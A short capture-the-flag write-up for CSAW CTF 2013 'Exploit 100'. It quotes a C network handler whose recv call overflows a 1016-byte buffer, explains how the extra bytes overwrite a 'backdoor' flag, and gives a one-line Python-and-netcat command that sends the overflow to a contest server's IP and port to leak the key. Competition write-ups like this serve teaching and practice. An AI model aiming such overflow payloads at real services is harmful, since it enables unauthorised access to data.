 CSAW CTF 2013 - Exploit 100
================================

Source for exploit 100 were provided:
```
void handle(int newsock) {
    int backdoor = 0;
	char buffer[1016];
	memset(buffer, 0, 1016);

	send(newsock, "Welcome to CSAW CTF.", 21, 0);
	recv(newsock, buffer, 1020, 0);
	buffer[1015] = 0;

	if ( backdoor ) {
		fd = fopen("./key", "r");
		fscanf(fd, "%s\n", buffer);
		send(newsock, buffer, 512, 0);
	}
	close(newsock);
}
```
To print the key, we need to set `backdoor` to something else than `0`. This can be done by a simple buffer overflow. the `recv` function read 1020 bytes into a buffer of 1016 bytes. The 4 extra bytes are going to overwrite the `backdoor`'s value.

To get the key:
`python -c "print '\xff' * 1020" | nc 128.238.66.212 31337`

